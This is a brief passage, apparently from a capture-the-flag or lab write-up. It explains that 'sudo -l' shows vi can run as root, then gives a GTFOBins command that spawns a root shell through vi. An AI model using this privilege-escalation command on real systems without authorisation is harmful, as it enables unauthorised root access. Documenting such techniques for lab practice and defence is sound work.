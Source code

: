 `sudo -l` tells us we can run `vi` as root

[gtfobins](https://gtfobins.github.io/gtfobins/vi/) tells us we can run the following command to get a shell as root through vi:

`vi -c ':!/bin/sh' /dev/null`
